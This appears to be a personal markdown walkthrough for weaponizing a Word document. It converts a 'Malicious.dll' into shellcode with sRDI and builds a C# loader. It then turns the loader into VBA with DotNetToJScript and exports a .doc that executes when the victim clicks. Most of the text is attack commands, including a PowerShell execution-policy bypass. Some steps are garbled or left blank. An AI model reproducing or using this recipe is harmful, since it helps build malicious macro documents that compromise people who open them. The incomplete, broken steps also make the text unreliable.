

Shellcode Reflective DLL Injection
Repo ref: https://github.com/monoxgas/sRDI (sRDI - Shellcode Reflective DLL Injection)
Prerequisties:- Convert-To-Shellcode.ps1
- DotNetToJScript.exe
- Malicious.dll
- loader.cs
Reminder for final product: export as .doc
---------------------------------------------------------------------
Begin:
We need to dump the dll file in order to see the exported functions- We want to pick the specific exported function
> dumpbin /exports malicious.dll

In a hello-wrold dll the example exported function is MessageBoxThread
Picking the function we want to execute
> rundll32 malicious.dll, MessageboxThread
Start powershell session
> powershell.exe -ExecutionPolicy Bypass
Load our shellcode ps1 script
> . ".\ConvertTo-Shellcode.ps1"
Setting environmental variable "$shellcode" and exporting to CLIPBOARD
> $shellcode = ConvertTo-Shellcodemalicious.dll
> $shellcode -join "," | clip
just save it into a textfile
now you should have shellcode.txt
From this point you need to build a C# loader- Shellcode goes here in program

Once you shellcode has been input, building should leave you with 22 similar files...

----------------------------------------------------------------------------
DotNetToJScript
https://github.com/tyranid/DotNetToJScript
Using the DotNet exe to create your VBA file and export to clipboard
CMD > .\DotNetToJScript.exe ..\Loader\bun\release\Loader.dll -c Loader.Loader -l VBA | clip
-------------------------------------------------------------
Opening a new document- open visual basic editor (alt+f11)

Once it is open do:
 --> ex:
--> ex: 
EXPORT AS .doc
Now it will execute when the user clicks